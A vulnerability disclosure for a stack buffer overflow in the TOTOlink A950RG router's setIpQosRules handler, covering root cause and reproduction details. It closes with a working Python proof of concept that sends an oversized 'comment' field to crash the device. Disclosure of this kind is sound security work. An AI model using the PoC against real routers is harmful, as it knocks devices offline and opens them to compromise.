


# TARGET

TOTOlink A950RG Router (Firmware Version V4.1.2cu.5204_B20210112)

# BUG TYPE

Buffer Overflow

# Abstract

A stack-based buffer overflow vulnerability was identified in the TOTOlink A950RG router running firmware V4.1.2cu.5204_B20210112. The flaw exists in the `setIpQosRules` interface of `/lib/cste_modules/firewall.so` where the `comment` parameter is not properly validated for length. A remote attacker can exploit this vulnerability by supplying an overly long `comment` value, potentially causing arbitrary code execution or denial of service.

# Details



## Vulnerability Description

The `setIpQosRules` function in `/lib/cste_modules/firewall.so` reads the `comment` parameter from user input and copies it into a fixed-size stack buffer using `strcpy()` without performing any bounds checking. Reverse engineering with IDA reveals the function entry at address `0x00003254`, where variable `v12` (the source containing the `comment` data) is passed to `strcpy()` and copied into destination buffer `v14`. Because `strcpy` does not verify destination capacity, an attacker-controlled, overly long `comment` string can overflow `v14`, corrupt adjacent stack memory (including saved registers and return addresses), and cause undefined behavior.

Possible consequences include:

* Process crash (Denial of Service)
* Control-flow hijacking leading to arbitrary code execution (depending on memory layout and exploitation conditions)
* System instability and further compromise

## Reproduction Environment

* **Device:** TOTOlink A950RG
* **Firmware:** V4.1.2cu.5204_B20210112
* **Vendor:** [https://www.totolink.net/](https://www.totolink.net/)
* **Firmware download:** [https://totolink.tw/support_view/A950RG](https://totolink.tw/support_view/A950RG)

Prior to exploitation, the router management interface was accessible and functioning normally. After sending the crafted payload, the process handling the firewall/QoS configuration exhibited abnormal behavior or crashed, confirming the buffer overflow.

## Root Cause

Analysis with IDA shows the function takes the `comment` input (stored in `v12`) and performs `strcpy(v14, v12)` without validating the length of `v12` relative to the size of `v14`. This unsafe copy allows an attacker to overwrite stack memory when `v12` exceeds `v14` capacity. The lack of input validation and proper use of safe string functions (for example `strncpy` with explicit bounds and subsequent NUL-termination checks) is the principal cause.

# POC

```python
import requests
repeated = "A" * 5000
url = "http://192.168.0.1/cgi-bin/cstecgi.cgi"
headers = {
    "User-Agent": "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:135.0) Gecko/20100101 Firefox/135.0",
    "Accept": "*/*",
    "Accept-Language": "zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2",
    "Accept-Encoding": "gzip, deflate",
    "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8",
    "X-Requested-With": "XMLHttpRequest",
    "Origin": "http://192.168.0.1",
    "Connection": "close",
    "Referer": "http://192.168.0.1/firewall/qos.asp?timestamp=1744049933207",
    "Priority": "u=0",
    "Cookie": "SESSION_ID=2:1744049667:2"
}
payload = {
    "topicurl": "setting/setIpQosRules",
    "ipStart": "192.168.0.3",
    "ipEnd": "192.168.0.5",
    "upBandwidth": "1000000",
    "dwBandwidth": "1000000",
    "comment": repeated
}
import json
data = json.dumps(payload)
response = requests.post(url, headers=headers, data=data, timeout=10)
print("Status Code:", response.status_code)
print("Response Body:", response.text[:500]) 
```

**Observed behavior:** After sending the payload, the router’s configuration handler may crash or become unresponsive, indicating successful triggering of a stack buffer overflow.


